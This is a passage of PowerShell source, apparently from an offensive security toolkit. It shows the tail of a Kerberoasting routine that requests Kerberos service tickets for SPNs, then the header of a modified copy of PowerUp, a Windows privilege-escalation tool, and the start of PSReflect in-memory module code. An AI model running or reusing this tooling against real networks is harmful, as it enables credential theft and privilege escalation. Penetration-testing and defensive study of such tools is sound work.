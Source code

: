                           $Null = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn.ToString()
                      }
                  }
              }
          }
      }
    }
    
    ###########
    # PowerUp
    ###########
    
    <#
        Modified version of PowerUp (authored by @harmj0y) without the modification functions
        
        PowerUp aims to be a clearinghouse of common Windows privilege escalation
        vectors that rely on misconfigurations. See README.md for more information.
    
        Author: @harmj0y
        License: BSD 3-Clause
        Required Dependencies: None
        Optional Dependencies: None
        
        Link: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
    #>
    
    #Requires -Version 2
    
    
    ########################################################
    #
    # PSReflect code for Windows API access
    # Author: @mattifestation
    #   https://raw.githubusercontent.com/mattifestation/PSReflect/master/PSReflect.psm1
    #
    ########################################################
    
    function New-InMemoryModule
    {
    <#
    .SYNOPSIS
    
    Creates an in-memory assembly and module
    
    Author: Matthew Graeber (@mattifestation)
    License: BSD 3-Clause
    Required Dependencies: None
    Optional Dependencies: None
    